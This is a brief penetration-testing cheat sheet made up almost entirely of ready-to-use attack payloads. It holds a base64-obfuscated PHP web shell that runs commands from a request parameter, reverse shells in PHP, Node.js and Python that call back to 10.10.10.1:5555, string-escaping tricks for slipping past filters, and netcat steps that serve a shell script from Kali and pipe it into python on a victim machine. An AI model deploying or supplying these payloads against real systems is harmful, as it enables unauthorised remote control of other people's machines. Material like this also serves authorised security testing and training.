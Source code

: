 ## PHP Command Execution

Payload: echo passthru($_REQUEST["cmd"])
```
<pre><?php eval(base64_decode('ZWNobyBwYXNzdGhydSgkX1JFUVVFU1RbImNtZCJdKTsg'));?></pre>
```
## PHP Reverse Shell

```
$sock=fsockopen("10.10.10.1",5555);
exec("/bin/sh -i <&3 >&3 2>&3");
```

## Node.js Reverse Shell

```
var net = require("net"), sh = require("child_process").exec("/bin/sh");
var client = new net.Socket();
client.connect(5555, "10.10.10.1", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

### Node.js notes

JavaScript strings can be escaped:

- hex encode: "/" -> "\\\\x2f" 

- unicode encode: "/" ->  "\\\\u002f"


## Python Reverse Shell

Create Python reverse shell

shell.py
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.1",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

## Serve Reverse Shell Remotely

Wait for connect back on Kali

```
kali@kali:~$ nc -nlvp 5555
```

Serve the shell from Kali

```
kali@kali:~$ nc -nvlp 4444 < shell.py
```

Get the shell from Kali and execute it on Victim

```
joe@victim:~$ nc 10.10.10.1 4444 | python
```
